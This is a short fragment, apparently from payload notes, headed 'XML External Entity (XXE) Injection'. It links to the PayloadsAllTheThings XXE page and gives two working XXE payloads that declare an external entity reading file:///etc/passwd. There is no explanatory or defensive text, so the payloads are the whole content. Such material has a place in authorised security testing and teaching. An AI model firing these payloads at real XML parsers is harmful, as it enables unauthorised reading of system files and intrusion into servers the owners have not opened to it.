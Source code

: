 **XML External Entity (XXE) Injection**

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">]>
<data>&file;</data>
```

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE creds [
<!ELEMENT creds ANY>
<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<creds><user>&xxe;</user><password>pass</password></creds>
```